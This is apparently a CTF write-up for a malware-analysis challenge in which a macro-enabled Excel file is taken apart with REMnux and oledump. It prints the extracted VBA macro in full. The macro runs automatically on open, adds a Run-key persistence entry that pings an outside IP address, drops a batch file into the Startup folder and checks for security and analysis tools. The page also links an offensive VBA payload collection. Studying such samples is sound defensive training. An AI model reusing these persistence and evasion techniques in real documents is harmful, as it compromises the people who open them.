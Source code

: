 ```yaml
---
title: Total Wreck SpreadSheets
time: 2024-09-22
categories: [malware analysis]
tags: [medium, malware, document analysis]
image: /assets/posts/chall_category/malware-analysis.png
---
```


## Description:

The cybersecurity team has been notified of unusual network activity originating from the HR department. An Excel file titled **"Employee_Salaries_2024.xlsm"** has been shared internally, supposedly containing sensitive payroll information for the upcoming year. Some employees who accessed the file reported unexpected system issues soon afterward, prompting an investigation into whether the document may be linked to these incidents. As an malware analyst, your role is to analyze the Excel file and investigate its contents. There may be hidden elements within the file contributing to the unusual behavior on the network.

- Category: Malware Analysis
- **Flag:** CTF{flag}
- Password for challenge file: `infected`

<button onclick="downloadFile()">Download File</button>

<script>
function downloadFile() {
    const link = document.createElement('a');
    link.href = 'https://github.com/0x251e/challenges/raw/main/union-depository/malware-analysis/total-wreck-spreadsheets/a_total_wreck_challenge.zip';
    link.download = 'a_total_wreck_challenge.zip';
    link.click();
}
</script>

## Solutions:

#### 1. Use REMnux as your trusty malware analysis tool

![solve1](/assets/posts/chall-writeup-img/total-wreck-spreadsheets/solve1.png)

In REMnux, move the `a_total_wreck_challenge.zip` to your working directory and unzip it with the password `infected`.

As we noticed the extension of xlsm of the file, it indicates the file contains macros. Macros is a recorded sequences of actions or commands that is used to automated repetitive tasks. It is a common feature in Microsoft Office tools. Mostly, it is used for formatting text, applying styles and inserting content. For excel wise, it can be perform complex or repetitive calculations in order to generate report in a swift time. 

In addition to macros, Microsoft Office also supports scripting through Visual Basic for Applications (VBA), which allows users to create more advanced and customized macros. VBA is a programming language integrated into Office applications such as Excel, Word, and PowerPoint, enabling automation beyond simple tasks. 

#### 2. Determine any malicious VBA macros with oletimes

Analyze the embedded contents of the spreadsheets with OLE tools.

```
oleid Employee_Salaries_2024.xlsm
```

Output:

![solve2](/assets/posts/chall-writeup-img/total-wreck-spreadsheets/solve2.png)

Here we can noticed that this spreasheet documents contain VBA macros that are highly suspicious due to certain keywords used. Lets analyze on the keywords that is used. The next process will be extracting the embedded macros. 

#### 3. Analyze VBA macros from the spreadsheets

```
oledump.py Employee_Salaries_2024.xlsm
```

Output:

![solve3](/assets/posts/chall-writeup-img/total-wreck-spreadsheets/solve3.png)

Here we can noticed a capital **M** on `A3: M 7064 'VBA/Module1` which is a stream. Always take note on the **M** and **m** where **M** means that the macro is compressed where else **m** means is uncompressed, it could be metadata which is easier to analyze

#### 4. Extracting macro 

```
oledump.py Employee_Salaries_2024.xlsm -s 3
```
Output:

![solve4](/assets/posts/chall-writeup-img/total-wreck-spreadsheets/solve4.png)

The output will return a hex bytes format of the macros which is difficult to analyze, however it contain some visible string. 

```
oledump.py Employee_Salaries_2024.xlsm -s 3 -S --vbadecompresscorrupt
```
Output:

![solve5](/assets/posts/chall-writeup-img/total-wreck-spreadsheets/solve5.png)

We can easily view the VBA script easily, now piped it to text file to analyze further for the flag.

#### 5. Analyzing malicious VBA scipt

```
Attribute VB_Name = "Module1"
Sub Document_Open()
    OldStartup = CreateObject("WScript.Shell").SpecialFolders("Startup")
    NewStartup = Replace(OldStartup, "Startup", "lolz")
    Set objFSO = CreateObject("Scripting.FileSystemObject")
    If objFSO.FolderExists(NewStartup) = False Then
    Name OldStartup As NewStartup
    Set objFile = objFSO.CreateTextFile(Path & "\dHJ5cGVyaGFwcw.bat", True)
    objFile.Write "cmd.exe"
    objFile.Close
    Name NewStartup As OldStartup
End If
    EvilMacro
End Sub
Sub AutOpen()
    Set WshShell = CreateObject("WScript.Shell")
    WshShell.regwrite "HKCU\Software\Microsoft\Windows\CurrentVersion\Run\Persist", "cmd.exe /C ping 183.81.169.238", "REG_SZ"
    EvilMacro
End Sub
Sub EvilMacro()
Function SearchProcesses()
  FtfIrLKSv=Array("cis.exe","cmdvirth.exe","alive.exe","filewatcherservice.exe","ngvmsvc.exe","sandboxierpcss.exe","analyzer.exe", \
                  "fortitracer.exe","nsverctl.exe","sbiectrl.exe","angar2.exe","goatcasper.exe","ollydbg.exe","sbiesvc.exe", \
                  "apimonitor.exe", "GoatClientApp.exe","peid.exe","scanhost.exe","apispy.exe","hiew32.exe","perl.exe","scktool.exe", \
                  "apispy32.exe","hookanaapp.exe","petools.exe","sdclt.exe","asura.exe","hookexplorer.exe","pexplorer.exe", \
                  "sftdcc.exe","autorepgui.exe","httplog.exe","ping.exe","shutdownmon.exe","autoruns.exe","icesword.exe","pr0c3xp.exe", \
                  "sniffhit.exe","autorunsc.exe","iclicker-release.exe",".exe","prince.exe","snoop.exe","autoscreenshotter.exe","idag.exe", \
                  "procanalyzer.exe", "spkrmon.exe","avctestsuite.exe","idag64.exe","processhacker.exe","sysanalyzer.exe","avz.exe", \
                  "idaq.exe","processmemdump.exe","syser.exe","behaviordumper.exe","immunitydebugger.exe","procexp.exe","systemexplorer.exe", \
                  "bindiff.exe","importrec.exe","procexp64.exe","systemexplorerservice.exe","BTPTrayIcon.exe","imul.exe","procmon.exe", \
                  "sython.exe", "capturebat.exe","Infoclient.exe","procmon64.exe","taskmgr.exe","cdb.exe","installrite.exe","python.exe", \
                  "taslogin.exe","cffexplorer.exe","ipfs.exe","pythonw.exe","tcpdump.exe","clicksharelauncher.exe","iprosetmonitor.exe","qq.exe", \
                  "tcpview.exe","closepopup.exe","iragent.exe","qqffo.exe","timeout.exe","commview.exe","iris.exe","qqprotect.exe", \
                  "totalcmd.exe","cports.exe","joeboxcontrol.exe","qqsg.exe","trojdie.kvpcrossfire.exe","joeboxserver.exe", \
                  "raptorclient.exe","txplatform.exe","dnf.exe"," lamer.exe","regmon.exe","virus.exe","dsniff.exe","LogHTTP.exe","regshot.exe", \
                  "vx.exe","dumpcap.exe", "lordpe.exe","RepMgr64.exe","winalysis.exe","emul.exe","malmon.exe","RepUtils32.exe","winapioverride32.exe", \
                  "ethereal.exe","mbarun.exe","RepUx.exe","windbg.exe","ettercap.exe","mdpmon.exe","runsample.exe","windump.exe", \
                  "fakehttpserver.exe","mmr.exe","samp1e.exe","winspy.exe","fakeserver.exe","mmr.exe","sample.exe","wireshark.exe", \
                  "Fiddler.exe","multipot.exe","sandboxiecrypto.exe","XXX.exe","filemon.exe","netsniffer.exe","sandboxiedcomlaunch.exe")
  Set VRfvQEHCs = GetObject("winmgmts:\\.\root\cimv2")
  Set uxSpQuH = VRfvQEHCs.ExecQuery("Select * from Win32_Process")
  For Each XqDiZDh In uxSpQuH
    For Each CMUDEKiI In FtfIrLKSv
      If XqDiZDh.Name = CMUDEKiI Then
        wscript.Echo "Q1RGe0hSX2cwdF93UjNrZH0"
      End If
    Next
  Next
End Function
```

In the VBA script, it contain code that creates a registry under `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` and it execute command to ping to `183.81.169.238`. We could check the activity of the IP address.

![solve6](/assets/posts/chall-writeup-img/total-wreck-spreadsheets/solve6.png)

With `AutOpen`, the script will runs automatically when the document is opened. Moreover, it contains a list of exe in an array which has the name of `Function SearchProcess()` which checks for common security tools. This means the malware is checking on whether it is in a monitoring enviroment. If it detects from WMI, it echoes a string `"Q1RGe0hSX2cwdF93UjNrZH0"`, lets take note on that. Finally, there is a code where is rename existing Startup folder to `test` and creates a batch file of `dHJ5cGVyaGFwcw.bat` and having the `cmd.exe` to execute it. Now we have two possible string contain flag-lookalike text, base64 indeed.

#### 6. Decode base64 string

```
echo "Q1RGe0hSX2cwdF93UjNrZH0" | base64 -d 
```

Output: CTF{HR\_g0t\_wR3kd}

**Flag:** `CTF{HR_g0t_wR3kd}`

## Challenge Creation: 

I have planned out in detail, will attach an md file for it. (Attachments: [READMe.md](https://github.com/0x251e/challenges/blob/main/union-depository/malware-analysis/total-wreck-spreadsheets/READMe.md)

TL;DR:
- Windows 10
- Excel spreadsheet (enable macros)
- Use [payloads](https://github.com/S3cur3Th1sSh1t/OffensiveVBA/)
- Use remnux test challenge file

References:
- [https://fareedfauzi.github.io/2024/04/20/Maldoc-Cheatsheet.html](https://fareedfauzi.github.io/2024/04/20/Maldoc-Cheatsheet.html)
- [medium post](https://socfortress.medium.com/malicious-macros-detection-in-ms-office-files-using-olevba-752ed6b48c04)
- [medium post](https://medium.com/@malwaredev/macros-in-malware-development-db426dc0f065)


